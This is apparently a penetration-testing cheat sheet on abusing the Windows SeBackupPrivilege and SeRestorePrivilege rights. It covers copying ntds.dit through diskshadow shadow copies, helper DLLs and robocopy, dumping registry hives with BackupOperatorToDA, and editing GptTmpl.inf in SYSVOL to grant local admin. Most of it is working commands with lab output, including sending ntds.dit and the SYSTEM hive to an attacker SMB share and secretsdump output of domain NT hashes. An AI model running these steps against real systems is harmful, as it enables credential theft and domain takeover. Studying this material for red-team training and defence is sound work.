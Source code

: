 ```yaml
---
title: "SeBackupPrivilege/SeRestorePrivilege"
date: 2024-7-18
tags: ["Credential Dumping", "File System", "SeBackupPrivilege", "SeRestorePrivilege", "Windows", "Backup Operators", "Diskshadow"]
---
```


### Abuse #1: Robocopy

```console
# For example
robocopy /b <TARGET_DIR_PATH> <DEST_DIR> <TARGET_FILE>
```

---

### Abuse #2: Helper dlls

```console
import-module .\SeBackupPrivilegeCmdLets.dll
```

```console
import-module .\SeBackupPrivilegeUtils.dll
```

```console
Copy-FileSeBackupPrivilege '<TARGET_FILE_PATH>' 'C:\ProgramData\<TARGET_FILE>'
```

```console
# For example
Copy-FileSeBackupPrivilege C:\Windows\ntds\ntds.dit C:\ProgramData\ntds.dit
```

<small>*Ref: [SeBackupPrivilegeUtils.dll](https://github.com/giuliano108/SeBackupPrivilege/blob/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll?raw=true)*</small>
<br>
<small>*Ref: [SeBackupPrivilegeCmdLets.dll](https://github.com/giuliano108/SeBackupPrivilege/blob/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll?raw=true)*</small>

---

### Abuse #3: Diskshadow

#### 1. Create a .dsh File

```console
set context persistent nowriters
set metadata C:\ProgramData\test.cab
set verbose on
add volume c: alias test
create
expose %test% x:
```

<br>

```console
# Convert to dos format
unix2dos vss.dsh
```

#### 2. Run vss.dsh

```console
# Upload and run
diskshadow /s C:\ProgramData\vss.dsh
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\svc_backup\Documents> diskshadow /s C:\ProgramData\vss.dsh
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  9/24/2024 5:54:17 PM

-> set context persistent nowriters
-> set metadata c:\windows\tasks\test.cab
-> set verbose on
-> add volume c: alias test
-> create

Alias test for shadow ID {89fcc72a-ef5d-4fc0-9f6c-c936c3ce6491} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {fa58db67-4686-4a2b-8f7e-2bc95503aa4a} set as environment variabl
Inserted file Manifest.xml into .cab file test.cab
Inserted file DisAF3.tmp into .cab file test.cab

Querying all shadow copies with the shadow copy set ID {fa58db67-4686-4a2b-8f7e-2bc95503aa4a}

        * Shadow copy ID = {89fcc72a-ef5d-4fc0-9f6c-c936c3ce6491}               %test%
                - Shadow copy set: {fa58db67-4686-4a2b-8f7e-2bc95503aa4a}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{6cd5140b-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 9/24/2024 5:54:18 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %test% x:
-> %test% = {89fcc72a-ef5d-4fc0-9f6c-c936c3ce6491}
The shadow copy was successfully exposed as x:\.
->
```

#### 3. Host a SMB Server (In Linux)

```console
impacket-smbserver share . -smb2support
```

```console {class="sample-code"}
$ impacket-smbserver share . -smb2support                                  
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
...[SNIP]...
```

#### 4. Copy to Local Linux

```console
net use \\<LOCAL_IP>\share
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\svc_backup\Documents> net use \\10.10.14.31\share
The command completed successfully.
```

```console
Copy-FileSeBackupPrivilege x:\Windows\ntds\ntds.dit \\<LOCAL_IP>\share\ntds.dit
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\svc_backup\Documents> Copy-FileSeBackupPrivilege x:\Windows\ntds\ntds.dit \\10.10.14.31\share\ntds.dit
```

```console
reg.exe save hklm\system \\<LOCAL_IP>\share\system
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\svc_backup\Documents> reg.exe save hklm\system \\10.10.14.31\share\system
```

#### 5. Secrets Dump

```console
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

```console {class="sample-code"}
$ impacket-secretsdump -ntds ntds.dit -system system LOCAL
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:7f82cc4be7ee6ca0b417c0719479dbec:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
...[SNIP]...
[*] Cleaning up...
```

---

### Abuse #4: BackupOperatorToDA

#### 1. Host a SMB Server (In Linux)

```console
impacket-smbserver share . -smb2support
```

#### 2. Copy Hives

```console
.\BackupOperatorToDA.exe -t \\<TARGET_COMPUTER> -u '<USER>' -p '<PASSWORD>' -d <DOMAIN> -o \\<LOCAL_IP>\share\
```

```console {class="sample-code"}
PS C:\programdata> .\BackupOperatorToDA.exe -t \\DC01 -u user -p 'password' -d example.com -o \\10.10.14.2\share\
Making user token
Dumping SAM hive to \\10.10.14.2\share\SAM
Dumping SYSTEM hive to \\10.10.14.2\share\SYSTEM
Dumping SECURITY hive to \\10.10.14.2\share\SECURITY
```

#### 3. Secrets Dump

```console
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL
```

<small>*Ref: [BackupOperatorToDA.exe](https://github.com/mpgn/BackupOperatorToDA)*</small>

---

### Abuse #5: Modify GptTmpl.inf

#### 1. Copy GptTmpl.inf

```console
robocopy /b "\\<DOMAIN>\sysvol\<DOMAIN>\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit" "C:\ProgramData" GptTmpl.inf
```

#### 2. Check Target User SID

```console
. .\PowerView.ps1
```

```console
Get-DomainUser | Select-Object samaccountname, objectsid
```

#### 3. Add Target User to Local Admin Group 

```console
# Append to GptTmpl.inf
[Group Membership]
*<SID>__Memberof = *S-1-5-32-544
*<SID>__Members =
*S-1-5-32-544__Memberof =
*S-1-5-32-544__Members = *<SID>
```

#### 4. Overwrite Original GptTmpl.inf

```console
robocopy /b "C:\Programdata" "\\<DOMAIN>\sysvol\<DOMAIN>\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit" GptTmpl.inf
``` 

#### 5. Wait

```console
# Wait or force gpupdate (if possible)
gpupdate /force
```

#### 6. Secrets Dump

```console
impacket-secretsdump '<DOMAIN>/<USER>:<PASSWORD>@<TARGET_DOMAIN>' -dc-ip <DC_IP>
```